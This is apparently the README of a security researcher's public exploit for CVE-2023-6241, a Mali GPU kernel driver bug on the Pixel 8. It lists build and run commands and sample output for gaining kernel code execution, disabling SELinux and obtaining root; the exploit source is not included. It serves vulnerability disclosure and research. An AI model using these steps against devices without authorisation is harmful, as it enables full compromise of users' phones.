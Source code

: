 ## Exploit for CVE-2023-6241

The write up can be found [here](https://github.blog/2024-03-18-gaining-kernel-code-execution-on-an-mte-enabled-pixel-8). This is a bug in the Arm Mali kernel driver that I reported in November 2023. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the Novmember 2023 patch (`UD1A.231105.004`). It needs to be compiled with OpenCL and link with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_jit_csf.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_jit_csf
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it failed, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_jit_csf                                     
mali_fd 3
corrupted_jit_addr 6000001000
kernel success
kernel success
queue kernel
jit_grow addr 6000001000
Size after grow: 22f6
Final grow size: 23c7
keep alive jit_addr 60023d1000
Size after free: 21fd, trim_level 6
writing to gpu_va 6002301000
found reused page 5fffef6000, 0
pgd entry found at index 0 40000899bbc443
overwrite addr : 5ffff00b50 b50
overwrite addr : 5fffb00b50 b50
overwrite addr : 5fff900b50 b50
overwrite addr : 5ffff00714 714
overwrite addr : 5fffb00714 714
overwrite addr : 5fff900714 714
result 50
clean up
```

When running the first time, the exploit sometimes stalled after printing the last `overwrite addr` message. If that happens (stalled for more than 10 seconds, though pausing for a few seconds is normal), then simply kill the exploit and rerun it. It should not stall the second time.

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.
